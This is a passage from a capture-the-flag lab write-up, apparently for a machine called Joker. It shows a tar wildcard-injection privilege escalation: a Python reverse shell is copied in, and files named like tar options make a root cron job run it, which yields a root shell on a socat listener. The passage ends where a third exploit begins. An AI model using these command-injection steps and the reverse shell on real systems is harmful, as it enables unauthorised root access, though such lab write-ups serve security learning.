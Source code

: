 #### Prep

First, I'll need a reverse shell. I'll copy the UDP Python shell to the
box using `scp`:



    root@kali# scp -i ~/keys/ed25519_gen rev.py alekos@10.10.10.21:/home/alekos/development/df   
    rev.py                                        100%  781    63.4KB/s   00:00    



I'll set it executable, and test it just by running it to ensure I get a
shell:



    alekos@joker:~$ chmod +x development/df 
    alekos@joker:~$ development/df



I do.

#### Exploit

I'll go into the `backup` directory and use `touch` to create two files.
The first is `--checkpoint=1`. This will trigger the checkpoint action
on the first record added to the archive:



    alekos@joker:~/development$ touch -- --checkpoint=1   



The second is `--checkpoint-action=exec=python df`. This will tell `tar`
to run `df` when it reaches a checkpoint:



    alekos@joker:~/development$ touch -- '--checkpoint-action=exec=python df'



In both cases, I use `--` to tell the shell that nothing after that is
an argument, but a filename. It's a good shorthand to create weird
files, and a good protection that if used in this cron, would prevent
this method of exploitation.

#### Shell

When the five minute mark rolls around, I get a shell on `socat`:



    root@kali# socat file:`tty`,raw,echo=0 udp-listen:443
    root@joker:/home/alekos/development# id
    uid=0(root) gid=0(root) groups=0(root)



### Exploit #3 - Break Cron

#### Theory
